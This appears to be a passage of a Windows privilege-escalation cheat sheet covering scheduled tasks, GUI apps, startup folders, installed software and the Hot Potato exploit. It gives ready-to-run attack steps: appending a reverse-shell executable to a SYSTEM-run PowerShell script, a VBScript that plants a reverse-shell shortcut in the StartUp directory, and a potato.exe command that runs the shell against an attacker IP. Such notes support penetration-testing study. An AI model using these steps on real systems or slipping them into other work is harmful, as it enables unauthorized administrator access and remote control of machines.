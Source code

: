 ### Scheduled Tasks

1. List all scheduled tasks your user can see:
   - `schtasks /query /fo LIST /v`
   - In PowerShell: `Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State`
2. Search in Task Manager for any scheduled task
   1. See if you find any `.ps1` script.
      - If the script found run as `SYSTEM`, check the write permissions of it with `C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\<script>.ps1`
      - Add to it a line to run the reverse shell `echo C:\PrivEsc\reverse.exe >> C:\<script>.ps1`
   2. For the `.exe`, review the permissions with `icals C:\Users\Documents\service.exe`
      - If you have full access permissions, substitute the `.exe` as in the section [Insecure File Permissions](#insecure-file-permissions)


### Insecure GUI Apps
1. Open an app. Look at the privilege level it runs with `tasklist /V | findstr mspaint.exe`
2. If the app runs with admin privileges and gives the possibility to open a file dialog box, click in the navigation input and paste: `file://c:/windows/system32/cmd.exe`

### Startup Apps
1. Note if `BUILTIN\Users` group can write files to the StartUp directory: `C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"`
2. Using cscript, run the following script to create a new shortcut of the reverse shell executable in the StartUp directory:
   - ```VBScript
     Set oWS = WScript.CreateObject("WScript.Shell")
     sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
     Set oLink = oWS.CreateShortcut(sLinkFile)
     oLink.TargetPath = "C:\PrivEsc\reverse.exe"
     oLink.Save
     ```

### Installed Applications
1. Manually enumerate all running programs: `tasklist /v`
   - With seatbelt: `.\seatbelt.exe NonstandardProcesses`
   - With winPEAS: `.\winPEASany.exe quiet procesinfo`
2. Search for the applications' versions
   - Try running the executable with `/?` or `-h,` as well as checking config or text files in the `Program Files` directory
3. Use Exploit-DB to search for a corresponding exploit

### Hot Potato
Note: This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.
1. See [Hot Potato](https://jlajara.gitlab.io/Potatoes_Windows_Privesc#hotPotato), get the exploit [here](https://github.com/foxglovesec/Potato)
2. Start a listener on the attacker machine
3. Run the exploit: `.\potato.exe -ip 192.168.1.33 -cmd "C:\PrivEsc\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true`
4. Wait for a Windows Defender update (or trigger one manually)
